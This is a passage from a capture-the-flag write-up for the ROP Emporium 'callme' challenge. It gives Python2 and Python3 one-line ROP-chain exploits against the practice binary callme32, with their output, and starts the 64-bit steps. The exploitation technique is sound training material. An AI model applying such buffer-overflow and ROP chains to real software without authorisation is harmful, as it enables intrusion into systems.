 Running either of the commands, I get the output:
```
$ python2 -c 'print "A"*44 + "".join([func + "\xf9\x87\x04\x08" + "\xef\xbe\xad\xde" + "\xbe\xba\xfe\xca" + "\x0d\xf0\x0d\xd0" for func in ["\xf0\x84\x04\x08", "\x50\x85\x04\x08", "\xe0\x84\x04\x08"]])' | ./callme32

callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

#### Python3 One-Line Exploit
If you have read the previous writeups, you will know that Python3 prints byte strings differently to Python2, which tends to break binary exploits. So to get around this issue, I used the `sys.stdout.buffer.write()` function from the `sys` module.

```
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"".join([func + b"\xf9\x87\x04\x08" + b"\xef\xbe\xad\xde" + b"\xbe\xba\xfe\xca" + b"\x0d\xf0\x0d\xd0" for func in [b"\xf0\x84\x04\x08", b"\x50\x85\x04\x08", b"\xe0\x84\x04\x08"]]))'
```

Running this command, I got the flag:
```
$ python3 -c 'import sys; sys.stdout.buffer.write(b"A"*44 + b"".join([func + b"\xf9\x87\x04\x08" + b"\xef\xbe\xad\xde" + b"\xbe\xba\xfe\xca" + b"\x0d\xf0\x0d\xd0" for func in [b"\xf0\x84\x04\x08", b"\x50\x85\x04\x08", b"\xe0\x84\x04\x08"]]))' | ./callme32

callme by ROP Emporium
x86

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
```

## x86-64 (64-bit) Binary Exploitation
The `x86-64` binary had the exact same protections as the `x86` binary, so I skipped that step.

### Step 1: Disassembling the Binary
The functions were the exact same as the `x86` binary, the only thing that differed were the memory addresses.

### Step 2: Finding the Offset
I again used `GDB-GEF` and the `pattern create` and `pattern offset` commands to generate a cyclic pattern and input it into the running binary to cause a crash.
